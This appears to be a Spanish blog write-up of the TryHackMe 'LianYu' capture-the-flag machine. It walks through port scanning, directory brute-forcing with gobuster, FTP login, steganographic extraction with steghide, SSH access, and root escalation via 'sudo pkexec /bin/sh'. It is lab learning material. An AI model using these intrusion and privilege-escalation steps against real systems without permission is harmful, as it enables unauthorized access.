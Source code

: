 ```yaml
---
layout: article
title: LianYu
mode: immersive
tags: TryHackMe
aside:
  toc: true
article_header:
  type: cover
  image:
    src: /LianYu.jpg
---
```


Esta es una máquina de tryHackMe
<!--more-->
---


Para empezar hacemos un nmap a la dirección ip que se nos ha sido otorgada
~~~
└─$ sudo nmap 10.10.105.239               
[sudo] contraseña para kali: 
Starting Nmap 7.92 ( https://nmap.org ) at 2023-01-17 12:52 CET
Nmap scan report for 10.10.105.239
Host is up (0.52s latency).
Not shown: 996 closed tcp ports (reset)
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
80/tcp  open  http
111/tcp open  rpcbind

Nmap done: 1 IP address (1 host up) scanned in 5.63 seconds
~~~
Una vez hemos visto que hay un http, entramos en el para encontrarnos una pagina sin nada importante a simple vista, por lo que para descubrir algo mas vamos a realizar un gobuster para ver si nos encuentra algun directorio.
~~~
└─$ gobuster dir -u http://10.10.105.239/-w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
/island               (Status: 301) [Size: 236] [--> http://10.10.105.239/island/]
~~~
Y le hacemos un gobuster a este directorio
~~~
└─$ gobuster dir -u http://10.10.105.239/island -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
/XXXX            (Status: 301) [Size: 241] [--> http://10.10.105.239/island/XXXX/]
~~~
Entramos al directorio que hemos encontrado y nos encontramos con basicamente el mismo escenario que antes, nada interesante a la vista, pero si inspeccionamos la pagina vemos que nos dice que tenemos un .ticket pero que no sabemos cual es, por lo que le hacemos un gobuster a este directorio con la extensión .ticket
~~~
└─$ gobuster dir -u http://10.10.105.239/island/XXXX -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .ticket
/XXXX_XXXX.ticket   (Status: 200) [Size: 71]
~~~
Ahora entramos a el ticket que nos ha encontrado el gobuster y nos muestra lo siguiente
~~~
This is just a token to get into Queen's Gambit(Ship)


RTy8yhBQdscX
~~~

Decodificamos esto con base58 y nos da lo siguiente
~~~
XXXXXX
~~~
Con esto entramos al ftp
~~~
└─$ ftp 10.10.105.239
Connected to 10.10.105.239.
220 (vsFTPd 3.0.2)
Name (10.10.105.239:kali): vigilante
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp>
~~~
Hacemos un ls para ver los contenidos del ftp y vemos que hay tres imagenes
~~~
ftp> ls
229 Entering Extended Passive Mode (|||17473|).
150 Here comes the directory listing.
-rw-r--r--    1 0        0          511720 May 01  2020 Leave_me_alone.png
-rw-r--r--    1 0        0          549924 May 05  2020 Queen's_Gambit.png
-rw-r--r--    1 0        0          191026 May 01  2020 aa.jpg
~~~
Obtenemos las tres imagenes con get y sustituimos los primeros valores del Leave_me_alone.png por estos
~~~
89 50 4E 47 0D 0A 1A 0A
~~~
Esto nos da una imagen la cual nos da una contraseña 
password
Con esta contraseña sacamos los ficheros ocultos de aa.jpg con steghide
~~~
└─$ steghide --extract -sf aa.jpg
Anotar salvoconducto: 
anot  los datos extra dos e/"ss.zip".
~~~
Ahora extraemos los contenidos del zip y vemos que hay dos ficheros
~~~
└─$ ls      
passwd.txt  XXXX
~~~
En el segundo nos encontramos la contraseña del ssh y junto al otro usuario que hay en el ftp podemos entrar
~~~
└─$ ssh slade@10.10.117.163 
slade@10.10.117.163's password: 
                              Way To SSH...
                          Loading.........Done.. 
                   Connecting To Lian_Yu  Happy Hacking

██╗    ██╗███████╗██╗      ██████╗ ██████╗ ███╗   ███╗███████╗██████╗ 
██║    ██║██╔════╝██║     ██╔════╝██╔═══██╗████╗ ████║██╔════╝╚════██╗
██║ █╗ ██║█████╗  ██║     ██║     ██║   ██║██╔████╔██║█████╗   █████╔╝
██║███╗██║██╔══╝  ██║     ██║     ██║   ██║██║╚██╔╝██║██╔══╝  ██╔═══╝ 
╚███╔███╔╝███████╗███████╗╚██████╗╚██████╔╝██║ ╚═╝ ██║███████╗███████╗
 ╚══╝╚══╝ ╚══════╝╚══════╝ ╚═════╝ ╚═════╝ ╚═╝     ╚═╝╚══════╝╚══════╝


        ██╗     ██╗ █████╗ ███╗   ██╗     ██╗   ██╗██╗   ██╗
        ██║     ██║██╔══██╗████╗  ██║     ╚██╗ ██╔╝██║   ██║
        ██║     ██║███████║██╔██╗ ██║      ╚████╔╝ ██║   ██║
        ██║     ██║██╔══██║██║╚██╗██║       ╚██╔╝  ██║   ██║
        ███████╗██║██║  ██║██║ ╚████║███████╗██║   ╚██████╔╝
        ╚══════╝╚═╝╚═╝  ╚═╝╚═╝  ╚═══╝╚══════╝╚═╝    ╚═════╝  #

Last login: Wed Jan 18 02:54:38 2023 from ip-10-9-13-70.eu-west-1.compute.internal
slade@LianYu:~$ 
~~~
Aqui podemos hacer un ls  y un cat para poder sacar la flag de usuario
~~~
slade@LianYu:~$ ls
user.txt
slade@LianYu:~$ cat user.txt 
XXX{XXXXXXX}
                        --Felicity Smoak
~~~
Para poder realizar la escalada de privilegios miramos que comando podemos ejecutar con sudo
~~~
slade@LianYu:~$ sudo -l
[sudo] password for slade: 
Matching Defaults entries for slade on LianYu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User slade may run the following commands on LianYu:
    (root) PASSWD: /usr/bin/pkexec
~~~
Viendo que podemos ejecutar pkexec buscamos en gtfobins un comando para poder escalar privilegios, el cual es el siguiente
~~~
slade@LianYu:~$ sudo pkexec /bin/sh
# whoami
root
# ls
root.txt
# cat root.txt
                          Mission accomplished



You are injected me with Mirakuru:) ---> Now slade Will become DEATHSTROKE. 



XXXX{XXXXXXXXXXXXXX}
                                                                              --DEATHSTROKE
                                                    
~~~
Y con esto ya estaría terminado este CTF